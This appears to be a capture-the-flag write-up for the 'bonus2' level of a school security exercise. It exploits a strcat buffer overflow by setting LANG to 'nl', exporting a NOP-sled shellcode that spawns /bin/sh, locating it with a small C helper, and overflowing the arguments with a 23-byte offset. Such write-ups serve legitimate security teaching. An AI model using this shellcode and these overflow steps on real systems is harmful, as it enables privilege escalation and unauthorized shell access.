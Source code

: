 # Bonus2

Let's see to the binary

![](/Users/a19523132/school/Rainfall/bonus2/Ressources/img/bonus2_launch.png)

The binary make greeting us. Let's use [gdb](Ressources/gdb.md) to understand what's going on. 

We need to exploit `strcat` once again to trigger a Shellcode. 
This program is using a `LANG` environment variable to greet us in the corresponding language if we input two arguments. 
`fi` and `nl` are recognized along with english being the default one. 
We must use either `fi` or `nl` to overflow as the greeting message in english is too short. 
Using `nl` we find out that offset is equal to `23` bytes.

All we have to do is set `LANG` to `nl` and exporting a Shellcode into our environment

    export LANG="nl"
    export SHELLCODE=`python -c 'print("\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`

And launch the simple program

    #include <cstdio>
    #include <cstdlib>
    
    int main(int ac, char **av)
    {
        printf("env address at %p\n", getenv(av[1]));
        return (0);
    }

Then we should make an overflow

`./bonus2 $(python -c "print '\x90' * 40") $(python -c "print '\x90' * 23 + '\xXX\xXX\xXX\xXX'[::-1]")`

![](/Users/a19523132/school/Rainfall/bonus2/Ressources/img/bonus3.png)
